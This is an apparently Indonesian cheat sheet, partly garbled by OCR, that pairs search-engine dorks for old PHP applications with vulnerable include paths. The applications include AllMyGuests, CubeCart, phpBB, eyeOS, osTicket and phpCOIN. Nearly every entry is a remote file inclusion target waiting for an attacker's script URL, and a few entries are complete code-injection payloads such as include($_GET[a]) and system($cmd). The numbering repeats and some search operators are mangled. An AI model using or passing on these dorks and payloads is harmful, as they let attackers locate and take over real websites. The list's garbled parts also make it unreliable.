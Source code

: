 /modules/AllMyGuests/signin.php?_AMGconfig[cfg_serverpath]=
9. allinurl:/Popper/index.php?
/Popper/index.php?childwindow.inc.php?form=
10. google = kietu/hit_js.php, allinurl:kietu/hit_js.php
yahoo = by Kietu? v 3.2
/kietu/index.php?kietu[url_hit]=
11. keyword : "Powered by phpBB 2.0.6"
/html&highlight=%2527.include($_GET[a]),exit.%2527&a=
12. keyword : "powered by CubeCart 3.0.6"
/includes/orderSuccess.inc.php?glob=1&cart_order_id=1&glob[rootDir]=
13. keyword : "powered by paBugs 2.0 Beta 3"
/class.mysql.php?path_to_bt_dir=
14. allinurl:"powered by AshNews", allinurl:AshNews atau allinurl: /ashnews.php
/ashnews.php?pathtoashnews=
15. keyword : /phorum/login.php
/phorum/plugin/replace/plugin.php?PHORUM[settings_dir]=
16. allinurl:ihm.php?p=*
14. keyword : "powered eyeOs"
/eyeos/desktop.php?baccio=eyeOptions.eyeapp&a=eyeOptions. eyeapp&_SESSION%5busr%5d=root&_SESSION%5bapps%5d%5 beyeOptions.eyeapp%5d%5bwrapup%5d=system($cmd);&cm d=id
diganti dengan :
/eyeos/desktop.php?baccio=eyeOptions.eyeapp&a=eyeOptions. eyeapp&_SESSION%5busr%5d=root&_SESSION%5bapps%5d%5 beyeOptions.eyeapp%5d%5bwrapup%5d=include($_GET%5b a%5d);&a=
15. allinurl:.php?bodyfile=
16. allinurl:/includes/orderSuccess.inc.php?glob=
/includes/orderSuccess.inc.php?glob=1&cart_order_id=1&glob[rootDir]=
17. allinurl:forums.html
/modules.php?name=
18. allinurl:/default.php?page=home
19. allinurl:/folder.php?id=
20. allinurl:main.php?pagina=
/paginedinamiche/main.php?pagina=
21. Key Word: ( Nuke ET Copyright 2004 por Truzone. ) or ( allinurl:*.edu.*/modules.php?name=allmyguests ) or ( "powered by AllMyGuests")
/modules/AllMyGuests/signin.php?_AMGconfig[cfg_serverpath]=
22. allinurl:application.php?base_path=
/application.php?base_path=
23. allinurlp:hplivehelper
/phplivehelper/initiate.php?abs_path=
24. allinurlp:hpnuke
/modules/AllMyGuests/signin.php?_AMGconfig[cfg_serverpath]=
25. key word : "powered by Fantastic News v2.1.2"
/archive.php?CONFIG[script_path]=
26. keyword: "powered by smartblog" AND inurl:?page=login
/index.php?page=
27. allinurl:/forum/
/forum/admin/index.php?inc_conf=
28. keyword:"Powered By FusionPHP"
/templates/headline_temp.php?nst_inc=
29. allinurl:shoutbox/expanded.php filetypep:hp
/shoutbox/expanded.php?conf=
30. allinurl: /osticket/
/osticket/include/main.php?config[search_disp]=true&include_dir=
31. keyword : "Powered by iUser"
/common.php?include_path=
32. allinurl: "static.php?load="
/static.php?load=
33. keyworld : /phpcoin/login.php
/phpcoin/config.php?_CCFG[_PKG_PATH_DBSE]=
34. keyworld: allinurl:/phpGedview/login.php site:
/help_text_vars.php?dir&PGV_BASE_DIRECTORY=
35. allinurl:/folder.php?id=
/classes.php?LOCAL_PATH=
 